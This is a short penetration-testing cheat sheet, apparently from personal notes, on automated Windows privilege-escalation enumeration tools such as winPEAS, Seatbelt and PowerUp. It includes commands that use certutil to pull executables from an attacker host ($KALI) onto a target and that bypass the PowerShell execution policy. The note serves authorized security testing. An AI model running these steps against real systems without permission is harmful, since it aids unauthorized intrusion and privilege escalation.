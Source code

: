 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| EXE's | PowerShell | Other |
| --- | --- | --- | 
| winPEAS.exe | Sherlock.ps1 | windows-exploit-suggester.py (Local) |
| Seatbelt.exe | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 |
| SharpUp.exe | 


[[99.__Links (WINDOWS)#Exploring Automated Tools]]


#### winPEAS.exe
```bash - kali
git clone https://github.com/carlospolop/PEASS-ng
```

```bash - kali
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx64.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx86.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASany.exe
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/winPEASx64.exe
```

Before running, we need to add a registry key and then reopen the command prompt:

```command prompt - windows
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```command prompt - windows
.\winPEASx64.exe quiet cmdfast > winpeas.txt
```

Run specific check categories:

```command prompt - windows
.\winPEASx64.exe quiet cmdsysteminfo
```

[[4._File Transfers]]

#### Seatbelt.exe

https://github.com/carlospolop/winPE/tree/master/binaries/seatbelt

```powershell - windows
.\Seatbelt.exe all > Seatbelt.txt
```

To run specific check(s):
```powershell - windows
.\Seatbelt.exe<check> <check>
```

#### Watson.exe
HOW TO USE WATSON: https://vk9-sec.com/watson-find-missing-windows-patches-for-local-privilege-escalation/

```command prompt - windows
watson.exe
```

#### SharpUp.exe

HOW TO USE SHARPUP: https://medium.com/@markmotig/quick-intro-to-building-and-running-sharpup-alternative-to-powerup-ps1-d114d66e9a75

```powershell - windows
.\SharpUp.exe
```

#### Sherlock.ps1

#### PowerUp.ps1
```powershell - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

#### jaws-enum.ps1

```powershell - windows
powershell -ep bypass
```

```powershell - windows
.\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
